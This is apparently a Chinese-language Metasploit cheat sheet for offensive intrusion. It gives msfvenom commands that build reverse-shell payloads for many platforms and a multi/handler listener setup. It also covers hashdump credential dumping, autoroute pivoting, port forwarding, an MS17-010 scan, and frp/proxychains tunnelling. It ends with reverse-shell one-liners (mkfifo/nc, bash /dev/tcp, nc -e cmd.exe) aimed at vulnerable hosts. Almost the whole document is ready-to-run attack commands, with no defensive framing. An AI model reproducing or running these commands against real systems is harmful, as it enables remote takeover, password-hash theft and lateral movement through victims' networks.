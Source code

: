 # MSF 一条龙



## Payload制作

### Linux

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=< Your IP Address> LPORT=12306 -f elf > shell.elf

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=< Your IP Address> LPORT=12306 -f elf > shell.elf
```

### Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=< Your IP Address> LPORT=12306  -f exe > meinv.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=< Your IP Address> LPORT=12306  -f exe > meinv.exe
```

### Mac

```bash
msfvenom -p osx/x64/shell_reverse_tcp LHOST=<Your IP Address> LPORT=12306-f macho > shell.machoWeb 
```

### PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=12306 -f raw > shell.php
```

### ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=12306 -f asp > shell.asp
```

### JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=12306 -f raw > shell.jsp
```

### WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=12306 -f war > shell.war
```

### Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=12306 -f raw > shell.py
```

### Bash

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=12306 -f raw > shell.sh
```

### Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=12306 -f raw > shell.pl
```

### 技巧

```bash
msfvenom -l payloads  #查看支持的payloads 
-i 10 								#生成payload带上-i 10表示对payload编码10次
```

## 反弹设置

```bash
#全局设置代理，似乎没手感 不推荐
#set proxies socks5:127.0.0.1:8080

#Payload值根据实际使用的payload填写
set exitonsession false
use exploits/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST VPSIP
set LPORT 12307
exploit -j

#获取session后设置路由
run post/multi/manage/autoroute
#获取各种hashdump（search），未知密码情况下hashdump可以用来横向登录其它主机

run post/windows/gather/hashdump
或
run post/windows/gather/smart_hashdump


#代理设置 感觉没有frp好用
use auxiliary/server/socks_proxy
#只是临时想看下内网服务可以做端口映射，很快、稳、也方便。
meterpreter > portfwd add -l 14448 -r 172.16.200.6 -p 3389

#设置好后根据前面的msf路由可以打攻击流量，跨网段的还是用proxychain启动msf打比较稳。
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.20.100.201
exploit
```

## 代理设置

### 代理服务frp
#### frpc

```bash
[common]
#remote vps addr
server_addr = vpsip 
server_port =  64447   
tls_enable = true 
pool_count = 5
 
[plugin_socks]
type = tcp 
remote_port = 54321 
plugin = socks5
use_encryption = true
```

#### frps

```bash
[common]
bind_addr = 0.0.0.0
bind_port = 64447 
 
dashboard_port = 7500
dashboard_user = admin1
```

### 代理服务**reGeorg**

```bash
参见Readme
```



### 代理客户端

#### proxychain4

```bash
#配置proxychain的代理连上frp，端口为54321
proxychain4 msfconsole
```

#### 浏览器

```bash
# 配置参数参考
sock5
ip vps
port 54321
# 注意 谷歌浏览器不支持带密码的sock5
```

## 其它

```bash
#简易版反连

# Linux vul机器
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 |nc IP 4444 >/tmp/f 
或
bash -i >& /dev/tcp/IP/4444 0>&1

# Window vul机器
nc ip 4444 -e c:\windows\system32\cmd.exe

#反弹机器
nc -lvp 4444
```

